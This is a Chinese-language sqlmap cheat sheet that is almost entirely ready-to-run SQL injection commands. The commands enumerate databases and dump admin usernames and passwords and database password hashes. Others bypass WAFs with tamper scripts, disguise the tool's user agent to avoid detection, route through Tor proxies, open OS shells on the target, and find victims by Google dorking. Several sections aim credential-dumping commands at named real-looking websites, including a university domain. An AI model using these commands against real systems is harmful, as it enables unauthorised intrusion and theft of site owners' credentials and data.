 	1. 注入分法不同，种类不同，来个简单的分类：
		1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2
	2. 需要数据库
		--dbs
	3. 得到数据库名称xxx，需要表： 
	    -D xxx --tables
	4. 得到表名xxxx，需要列：
	    -D xxx -T xxxx --columns
		
		Note:
				1) 指定列的范围从2－4 : python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0
			
	5. 得到列名有admin，password，需要值：
	    -D xxx -T xxxx -C "admin,password" --dump
		
		Note:
				1) --dump-all 导出所有表，所有数据
				
	6. 还需要绕waf
		python sqlmap.py -u "http://192.168.159.1/news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py"
		相同的脚本还有：
			§ space2morehash.py
			§ space2hash.py
			§ base64encode.py
			§ charencode.py
		
		
	7. 注入被识别出来是工具，断开咋办
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"
		c. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3
	8. 让sqlmap自动跑post注入，填表单
		sqlmap -u "http://www.xxx.com/login.asp" --forms
	9. 看看当前用户是不是dba
		○ --is-dba
		○ -a
		
		Note:    -a下面的那些命令是用来看用户，看主机，看权限的
	10. 列举数据库用户
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0
	11. 列举数据库用户密码
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0
		
	12. 查看用户权限
		python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0
		
	13. 使用基本认证
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3
	14. 使用Digest认证
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3
	15. 使用代理,配合TOR
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"
		
	16. 使用多线程猜解
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3
	17. 绕过动态检测,直接指定有注入点的参数
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id"
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"
	18. 指定数据库,绕过SQLMAP的自动检测
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"
		* MySQL
		* Oracle
		* PostgreSQL
		* Microsoft SQL Server
		
	19. 指定操作系统,绕过SQLMAP自动检测
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"
		* Linux
		* Windows
		
	20. 自定义payload
		Options: --prefix and --postfix
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"
	21. --os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell
		○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig
		○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-shell
		○ --file-xx 牛逼的文件操作命令
	22. sql query
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1
	23. 选择sqlmap默认选项
		--batch 
		
		
	24. 不那么常用的
		a. 只列出用户自己新建的数据库和表的内容
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0
		b. 保存和恢复会话
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"
		c. 保存选项到INC配置文件
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
		d. 页面比较
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v
		e. 排除网站的内容
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"
		f. 多语句测试，php内嵌函数mysql_query(),不支持多语句
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1
		g. union注入测试
			python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1
		h. unionz注入配合orderby
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs
		i. fingerprint
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
			python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b
		j. SQLMAP中Google搜索注入
			python sqlmap.py  -g "inurl:php?id="
		k. SQLMAP伪静态注入
			i. 查找数据库
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" --dbs
			ii. 通过1中的数据库查找对应的表 (假如通过1，得到的是dataname)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname --tables
			iii. 通过2中的数据表得到字段(假如得到的是tablename表)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename --columns
			iv. 通过3得到字段值(假如从3中得到字段id，password)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename -C "password" --dump
				
		l. SQLMAP用于Access数据库注入
			i. 猜解是否能注入
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7"
			ii. 猜解表
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --tables
			iii. 根据猜解的表进行猜解表的字段(假如通过2得到了admin这个表)
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --columns -T admin
			iv. 根据字段猜解内容(假如通过3得到字段为username和password)
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --dump -T admin -C "username,password"
		m. SQLMAP用于Cookie注入
			i. cookie注入，猜解表
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
			ii. 猜解字段，(通过1的表猜解字段，假如表为admin)
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --columns -T admin --level 2
			iii. 猜解内容
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --dump -T admin -C "username,password" --level 2
				

